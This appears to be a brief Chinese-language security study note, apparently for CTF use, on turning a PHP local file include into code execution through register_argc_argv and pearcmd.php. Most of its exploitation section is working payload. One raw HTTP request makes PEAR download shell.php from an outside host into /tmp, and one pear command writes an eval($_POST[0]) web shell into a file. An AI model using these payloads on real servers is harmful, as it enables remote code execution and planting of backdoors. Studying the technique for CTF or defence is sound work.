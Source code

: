 # 参考
	- https://blog.csdn.net/rfrder/article/details/121042290
- `register_argc_argv`
	- 读取HTTP Query为`$_SERVER['argv']`
	- 如果存在php.ini的话，默认是Off。如果没有php.ini则默认是On。
	- 以`+`作为分隔
- 使用
	- [[PHP/PEAR]]
- # 利用
	- 如果有`include $_GET['file']`
		- ```
		  GET /?file=/usr/local/lib/php/pearcmd.php&+install+-R+/tmp+http://121.5.169.223:39777/shell.php HTTP/1.1
		  Host: 119.45.254.56:23343
		  Upgrade-Insecure-Requests: 1
		  User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/95.0.4638.54 Safari/537.36
		  Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
		  Accept-Encoding: gzip, deflate
		  Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7
		  Connection: close
		  
		  
		  ```
	- 也可以写入文件
		- ```
		  pear -c /tmp/.feng.php -d man_dir=<?=eval($_POST[0]);?> -s
		  ```
	- 注意利用时不能使用`%20`，需要使用`+`